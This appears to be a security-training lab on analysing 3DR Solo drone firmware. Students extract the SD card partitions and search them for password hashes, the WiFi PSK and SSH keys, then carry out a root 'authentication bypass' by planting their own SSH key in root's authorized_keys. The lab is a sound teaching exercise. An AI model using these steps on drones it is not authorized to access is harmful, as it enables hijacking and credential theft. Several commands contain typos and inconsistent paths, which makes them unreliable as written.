




# Lab: UAV Firmware Analysis

**Type:** Lab
**Duration:** 60 minutes
**Section:** Day 1 – UAV & Drone

---

## Objectives

- Obtain UAV firmware from public sources
- Analyze firmware with Binwalk
- Extract and explore the embedded filesystem
- Identify potential security issues in the extracted content

---

## Background

UAV firmware contains the operating system, configuration files, startup scripts, and binaries that run on the drone's companion computer or flight controller. Analyzing firmware reveals:

- Default credentials (hardcoded passwords, SSH keys)
- Network configuration (open ports, services, firewall rules)
- Encryption keys or certificates
- Proprietary communication protocols
- Debug artifacts left by developers

## Key tools
- **Binwalk** – firmware analysis and extraction
- **FAT (Firmware Analysis Toolkit)** – automated emulation and analysis
- Standard Linux tools: `file`, `strings`, `grep`, `find`, `cat`

---

## Phase 1: Obtain Firmware

### Option A – Download from Manufacturer

```bash
# 3DR Solo firmware is available from the OpenSolo GitHub project
# ArduCopter firmware releases are on firmware.ardupilot.org

# Check the FCC ID for hardware certification docs with firmware links
# FCC ID for 3DR Solo: 2AC3P-800
# https://fccid.io/2AC3P-800
```
## Phase 1: Obtain Firmware
### Option B – Extract from a Running Device

```bash
# Connect to 3DR Solo WiFi: SoloLink_XXXXXXXX
# SSH to the Solo companion computer
ssh root@10.1.1.10

# View partitions
cat /proc/mtd
lsblk

# Dump a partition (example: root filesystem)
dd if=/dev/mmcblk0p2 | gzip > solo-rootfs.img.gz

# Transfer to your laptop
# On your laptop:
scp root@10.1.1.10:/tmp/solo-rootfs.img.gz .
```
## Phase 1: Obtain Firmware
### Option C – Extract from SD Card

- Remove microSD card from 3DR Solo UAV
- Mount partition
- Dump contents

---

## Phase 2: Going with Option C

- Pull SD card for the 3D solo UAV
- Insert the MicroSD card into the provided Gigastone USB thumbdrive
- If a format dialog pops up in Wndows *DO NOT FORMAT* just hit *CANCEL*


## Kali USB passthrough
In VirtualBox you need to confgure the USB passtrough to be able to see the SD card in your Kali Linux.

- Find the devices menu in VirtualBox and click on `Generic USB2.0 Device`



## Find MicroSD file partitions

- In Kali, open a terminal, type the following command: 
```bash
fdisk -l 
```
We see a 32gb file system on /dev/sdb

Two of the partitions (sdb3 and sdb4) are Linux partitions



## Create mount point 

- Create a mount point for the sdb3 partition using the following command
```bash
sudo mkdir -p /mnt/solo/p3
```
Creates a mount point to attach the /dev/sdb partition

## Mount partition

- Mount the sdb3 partition as a “Read Only” file system

```bash
sudo mount -o rw /dev/sdb3 /mnt/solo/p3
```
Mounts the microSD partition 3 as ‘read only’ to /mnt/solo/p3

## List out files

- Find out what files and directories are in this partition
```bash
ls /mnt/solo/p3
cp /mnt/solo/p2/3dr.....squashfs .
sudo unsquashfs 3dr...squashfs
ls # squashfs-root
cd unsquash-root/etc
mkdir /home/kali/unshadow
cp passwd /home/kali/unshadow
cp shadow /home/kali/unshadow
ls /home/kali/unshadow

```


We see some of the files we expect on a linux root filesystem, but not all.

### Why only some?


## Phase 4: Hunt for Sensitive Data

### Check for Default Credentials

```bash
# Shadow file — password hashes
cat /mnt/solo/etc/shadow

# Passwd file — user accounts
cat /mnt/solo/etc/passwd

# Look for hardcoded passwords in scripts
grep -r "password" /mnt/solo/etc/ --include="*.conf" --include="*.sh"
grep -r "passwd" /mnt/solo/usr/share/ -l
```
### Check for Wifi Creds

- List the files in the Solo’s /etc directory

```bash
ls /mnt/solo/p3/etc
```

-Dump the contents of the `wpa_supplicant.conf` file
```bash
cat /etc/solo/p3/wpa_supplicant.conf
```
Lists the SSID and PSK (password) of the wifi connection

---

### Check for SSH Keys

```bash
find /mnt/solo/p3 -name "*.pem" -o -name "*.key" -o -name "id_rsa" 2>/dev/null
cat /mnt/solo/p3/etc/ssh/sshd_config
```

### Check Network Services

```bash
cat /mnt/solo/p3/etc/inetd.conf 2>/dev/null
find /mnt/solo/p3 -name "*.service" | xargs grep -l "Listen\|Port" 2>/dev/null
cat /mnt/solo/p3/etc/init.d/* | grep -i "start"
```


### Check for Development Artifacts

```bash
find /mnt/solo/p3 -name "*.log" -o -name "debug*" 2>/dev/null
grep -r "TODO\|FIXME\|HACK\|debug" /mnt/solo/etc/ 2>/dev/null
```

---

## Phase 5: Analyze Startup and Services

```bash
# What runs at boot?
cat /mnt/solo/p3/etc/inittab 2>/dev/null
ls /mnt/solo/p3/etc/init.d/
cat /mnt/solo/p3/etc/rc.local 2>/dev/null

# What network services are configured?
cat /mnt/solo/p3/etc/hostapd.conf 2>/dev/null  # WiFi AP configuration
cat /mnt/solo/p3/etc/wpa_supplicant.conf 2>/dev/null
cat /mnt/solo/p3/etc/network/interfaces 2>/dev/null
```
---
## Phase 6: Root Authentication Bypass

### Examine the mounted files systems on the 3DR Solo

Run this command to examine the mounted filesystems on the 3DR Solo
```bash
ssh root@10.1.1.10 "mount | grep mmc"
```

The output should resemble the following
```bash
/dev/mmcblk0p2 on /mnt/boot type vfat (ro,relatime,fmask=0022,dmask=0022,codepage=437,iocharset=iso8859-1,shortname=mixed,errors=remount-ro)
/dev/mmcblk0p3 on /mnt/rootfs.rw type ext3 (rw,relatime,errors=continue,user_xattr,acl,barrier=1,data=ordered)
/dev/mmcblk0p4 on /log type ext4 (rw,relatime,data=ordered)
```
---
## Phase 6: Root Authentication Bypass
### Overlay File Systems
Note that partition 2 `/dev/mmc0blk2` is mounted `read only` as indicated by the `ro` flag.

Note that partition 3 `/dev/mmc0blk3` is mounted `read write` as indicated by the `rw` flag

This is because parition 3 is an `overlay` partition that allows for persistant modification of the underlying `read only` file system. Because it is `read and write`, files that we add to partition 3 will be included as part of the root filesystem during bootup.

---
## Phase 6: Root Authentication Bypass
### Mount the 3DR microSD card on your Kali VM

- Turn the 3DR UAV off.
- Remove the microSD card
- Insert the microSD card in the gigastone USB microSD card adapter
- Insert the Gigastone adapter in the laptop
- Configure USB passthrough to the Kali VM

```bash
# verify the microSD card is available 
# in the Kali VM this will likely be on /dev/sdb
sudo fdisk -l
```
---
## Phase 6: Root Authentication Bypass
### 3DR Solo MicroSD Card Partitions

The output should resemble the following
```bash
Disk /dev/sdb: 7.44 GiB, 7988051968 bytes, 15601664 sectors
Disk model: Mass-Storage    
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x0000e230

Device     Boot  Start      End  Sectors  Size Id Type
/dev/sdb1         8192   188415   180224   88M  c W95 FAT32 (LBA)
/dev/sdb2       194560   391167   196608   96M  c W95 FAT32 (LBA)
/dev/sdb3       391168   585727   194560   95M 83 Linux
/dev/sdb4       585728 15521791 14936064  7.1G 83 Linux
```
---
## Phase 6: Root Authentication Bypass
### Mount Partition 3
Mount the RW partition so that you can modify it

```bash
mkdir -p /mnt/solo/p3
mount /dev/sdb3 /mnt/solo/p3
ls -l /mnt/solo/p3
```

Your output should resemble the following

```bash
total 21
drwxr-xr-x 4 root root  1024 Feb 13  2022 etc
drwxr-xr-x 3 root root  1024 Jan 26  2020 firmware
drwxr-sr-x 3 root root  1024 Feb 13  2022 home
drwx------ 2 root root 12288 Dec 31  1969 lost+found
drwxr-xr-x 2 root root  1024 Dec 31  1969 media
drwxr-xr-x 5 root root  1024 Dec 31  1969 mnt
-rw-r--r-- 1 root root    33 Feb 13  2022 PIX_VERSION
drwxr-xr-x 3 root root  1024 Dec 31  1969 run
lrwxrwxrwx 1 root root     8 Dec 31  1969 tmp -> /var/tmp
drwxr-xr-x 4 root root  1024 Jan 26  2020 usr
drwxr-xr-x 3 root root  1024 Dec 31  1969 var
```
---
## Phase 6: Root Authentication Bypass
### Create a new set of SSH Keys for tester
The following instructions will add tester controlled ssh keys to the 3DR to allow for passwordless login.

```bash
# generate a SSH keypair
ssh-keygen -t rsa -f tester
```
Insert tester SSH key into 3DR root filesystem

```bash
sudo cp tester.pub /mnt/solo/p3/home/root/.ssh/authorized_keys
sudo chmod 0600 /mnt/solo/p3/home/root/authorized_keys
sudo chown -R root:root /mnt/solo/p3/home/root/.ssh
umount /mnt/solo/p3
```
---
## Phase 6: Root Authentication Bypass
### Reboot the 3DR Solo
* Remove the Gigastone adapter from the 3DR UAV
* Remove the microSD card from the Gigastone
* Insert the microSD card into the 3DR Solo UAV
* Power on the Controller, if not already powered on
* Power on the 3DR Solo
* On your laptop, join the wifi for your 3DR

---
## Phase 6: Root Authentication Bypass
Login to the 3DR Solo with the injected SSH Keys
```bash
ssh1 -i tester root@10.1.1.10
```

### Congratulations on your Authentication Bypass Attack
---

---

## Expected Findings: 3DR Solo

| Finding | Location | Severity |
|---------|----------|----------|
| SSH root access enabled | /etc/ssh/sshd_config | High |
| WiFi passphrase in config | /etc/wpa_supplicant.conf | High |
| Telnet service enabled | /etc/inetd.conf | High |
| No firewall configuration | (absent) | Medium |
| Build artifacts / debug logs | /var/log/, /tmp/ | Low |


---
## Cleanup 

Once you have found all the content you need unmounnt the microsd card with the following command: 

```bash
sudo umount /mnt/solo/pe3
```
---

## Discussion Questions

1. What is the impact of a compromised root password on this drone?
2. If the WiFi passphrase is embedded in firmware, what does that mean for all 3DR Solo drones using the same firmware version?
3. How would you responsibly disclose a firmware vulnerability to a manufacturer?
4. What security controls would you add to this firmware?
